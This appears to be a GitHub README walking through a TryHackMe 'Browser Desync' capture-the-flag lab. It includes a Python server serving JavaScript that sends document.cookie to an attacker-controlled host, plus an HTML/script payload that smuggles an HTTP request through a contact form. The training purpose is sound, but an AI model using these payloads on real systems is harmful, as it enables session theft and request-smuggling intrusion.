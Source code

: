 # Browser Desync Attack – TryHackMe Challenge Walkthrough

This repository contains a step-by-step guide to solving the **Browser Desync** challenge on TryHackMe.

## 🧠 Objective

Exploit a vulnerable web server using a browser-based desynchronization attack to extract a flag via a crafted payload and a local server.

---

## 🛠 Prerequisites

- Linux environment or TryHackMe AttackBox
- Python 3
- Basic knowledge of HTML/JavaScript
- Modify `/etc/hosts` file

---

## ✅ Exact Steps to Complete the Challenge

### 1. Edit `/etc/hosts`

Add the following entry to your `/etc/hosts` file:

```bash
sudo nano /etc/hosts
```
```
10.10.98.237 challenge.thm
```

### 2. Start the Payload Server (Port 1337)
Create a file named server.py with the following content:

```python

from http.server import BaseHTTPRequestHandler, HTTPServer

class ExploitHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/':
            self.send_response(200)
            self.send_header("Access-Control-Allow-Origin", "*")
            self.send_header("Content-type", "text/html")
            self.end_headers()
            self.wfile.write(b"fetch('http://YOUR_IP:8080/' + document.cookie)")

def run_server(port=1337):   
    server_address = ('', port)
    httpd = HTTPServer(server_address, ExploitHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

Replace YOUR_IP with your real IP (e.g., 10.8.9.123), then run:

```bash
sudo python3 server.py
```

### 3. Start a Web Server on Port 8080
In a new terminal:

```bash
sudo python3 -m http.server 8080
```
This will serve static content and allow receiving the stolen cookie/flag via the crafted request.

### 4. Inject the Payload via Secure Contact Page
Visit:

http://challenge.thm/securecontact
Fill in the form. In the message field, paste the following payload:
``` 
<form id="btn" action="http://challenge.thm/" method="POST" enctype="text/plain">
<textarea name="GET http://YOUR_IP:1337 HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
Replace YOUR_IP with your real IP.

### 5. Trigger the Payload Execution
Now visit:

http://challenge.thm/vulnerablecontact
This page will parse and execute the HTML/JavaScript code, causing the browser to submit the form and initiate the request smuggling.

### 6. Receive the Flag
Wait for a request to hit your server on port 8080. You should see something like:


GET /flag=THM{...} HTTP/1.1

🎉 Flag captured!

🧩 Notes
This challenge exploits how HTTP/1.1 and browser behavior can desynchronize front-end and back-end servers.

The vulnerability chain involves reflection, request smuggling, and CORS misconfigurations.

Ensure your IP and port are accessible by the target during testing.
